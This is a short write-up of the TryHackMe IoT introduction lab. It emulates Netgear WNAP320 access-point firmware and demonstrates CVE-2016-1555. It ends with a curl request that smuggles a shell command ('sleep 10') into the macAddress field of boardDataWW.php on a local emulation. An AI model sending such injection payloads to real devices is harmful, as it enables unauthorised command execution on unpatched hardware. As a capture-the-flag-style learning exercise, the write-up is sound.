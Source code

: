 # [IOT intro](https://tryhackme.com/room/iotintro)

## Firmware

_A firmware is a small piece of software that makes hardware work and do what its manufacturer intended it to do. Without it the devices we use wouldn't work._

During this challenge we'll be playing with:

- a [firmware](http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip) used by **Netgear** for a few of their **Access Point products**
- the [CVE-2016-1555](https://www.cvedetails.com/cve/CVE-2016-1555/)
- [firmware-analysis-toolkit](https://github.com/attify/firmware-analysis-toolkit) based on
[firmadyne](https://github.com/firmadyne/firmadyne) (an automated and scalable system for performing emulation and dynamic analysis of Linux-based embedded firmware).

> The difference is that **firmware-analysis-toolkit** just doesn't use PostgreSQL to store information about the emulated images.

___

- `nmap` scan (TCP):

![nmap scan](img/nmap_TCP.png)

- `ssh` connection (**password:** tryhackme123!):

![ssh](img/ssh.png)

- Find the firmware archive and extract files:

![binwalk](img/root-squashfs.png)

- Copying `rootfs.squashfs` to **firmware-analysis-toolkit**:

![FAT](img/FAT.png)

- Running emulation:

![emulation](img/fat_py.png) 

![SDK](img/SDK.png) 

- Running port forwarding: 

![port_forward](img/port_forward.png) 

`ssh -N USER@IP -L LOCAL_PORT:VICTIM_IP:VICTIM_PORT`

**Options**:

1. `-N`: Do not execute a remote command.  This is useful for just forwarding ports.

2. `-L [bind_address:]port:host:hostport`: perform TCP port forwarding. 

- Web app is now running on our machine:

![netgear_web](img/netgear_web.png)


![boardDataWW](img/boardDataWW.png)


`curl 'http://localhost:8081/boardDataWW.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://localhost:8081/boardDataWW.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=8e02ea9cb6bc22dc14d3614d7524c2cc' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-raw 'macAddress=112233445566;+sleep+10+#&reginfo=0&writeData=Submit'`
